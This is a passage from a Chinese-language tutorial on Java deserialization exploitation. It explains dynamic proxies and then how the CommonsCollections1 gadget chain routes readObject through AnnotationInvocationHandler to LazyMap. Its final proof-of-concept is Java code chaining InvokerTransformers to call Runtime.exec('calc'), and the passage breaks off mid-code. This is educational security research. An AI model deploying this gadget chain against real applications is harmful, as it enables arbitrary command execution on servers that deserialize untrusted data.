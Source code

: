 ```java
}
```

在运行期动态创建一个`interface`实例的方法如下：

1. 定义一个`InvocationHandler`实例，它负责实现接口的方法调用；
2. 通过`Proxy.newProxyInstance()`创建`interface`实例，它需要3个参数：
   1. 使用的`ClassLoader`，通常就是接口类的`ClassLoader`；
   2. 需要实现的接口数组，至少需要传入一个接口进去；
   3. 用来处理接口方法调用的`InvocationHandler`实例。
3. 将返回的`Object`强制转型为接口。

这里调用 hello.morning ，就会触发 handler 的 invoke 方法，并传递三个参数进去，分别为 proxy （代理对象），method 即调用的方法的 Method 对象，args 即传递的参数。

我们即是通过动态代理从 readobject 方法为入口，将 memberValues 设为 AnnotationInvocationHandler 的代理类（ AnnotationInvocationHandler 实现了 InvocationHandler，所以可以被设置为代理类的handler ），那么就会调用  AnnotationInvocationHandler 的 invoke 方法，从而执行 get 方法，

所以最终POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class cc1 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class}, new Object[]{"calc"})});
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);

        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class, map); //创建第一个代理的handler

        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, map_handler); //创建proxy对象

        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) AnnotationInvocationHandler_Constructor.newInstance(Override.class, proxy_map);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
```